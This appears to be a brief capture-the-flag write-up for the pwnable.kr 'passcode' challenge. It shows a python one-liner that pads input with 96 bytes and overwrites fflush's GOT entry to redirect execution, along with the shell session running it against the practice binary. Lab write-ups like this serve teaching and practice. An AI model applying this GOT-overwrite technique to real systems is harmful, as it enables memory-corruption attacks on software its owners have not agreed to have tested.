 # passcode

---

<img width="1440" alt="Screenshot 2024-12-11 at 11 07 53 PM" src="https://github.com/user-attachments/assets/37ccd366-5ecd-4123-a091-159a5498d034" />

---

#### what to write>>: 0x080485e3: 134514147

#### where to write >> 0804a004  00000207 R_386_JUMP_SLOT   00000000   
fflush@GLIBC_2.0

```python
python -c "print 'a'*96 + '\x04\xa0\x04\x08\n134514147\n10\n'" > tmp/test
```

```bash
python -c "print 'a'*96 + '\x04\xa0\x04\x08\n134514147\n10\n'" > /tmp/test
channel 21: open failed: administratively prohibited: open failed
ls
flag  passcode	passcode.c
channel 26: open failed: administratively prohibited: open failed
./passcode < /tmp/test
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

---

